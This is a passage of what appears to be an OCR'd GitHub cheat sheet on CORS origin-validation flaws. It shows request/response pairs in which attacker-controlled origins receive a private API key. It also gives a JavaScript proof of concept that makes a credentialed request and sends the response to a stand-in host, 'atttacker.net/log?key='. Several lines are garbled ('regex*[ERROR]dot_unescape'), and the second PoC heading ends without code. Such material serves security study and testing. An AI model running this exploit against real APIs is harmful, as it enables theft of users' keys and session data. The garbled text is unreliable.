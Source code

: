 ### expand o r i g i n / Regex Issues
Occasionally, certain expansions of OG/o r i g i n are not filtered. 
Server-side, this might be caused by using a bad.imp/regex | validate -origin [HOST]

#### vuln.IMP(1)
In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 
{"[private API key]"}

```
#### poc*
This PoC requires the respective JS script to be hosted at `evilexample.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();
function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

#### Vuln.Imp(2)
In server 
--utilize regex*[ERROR]dot_unescape 
For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, DOT can be replaced with any letter to gain access from a third-party domain.

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### poc**

This PoC requires the respective JS script to be hosted at `apiiexample.com`
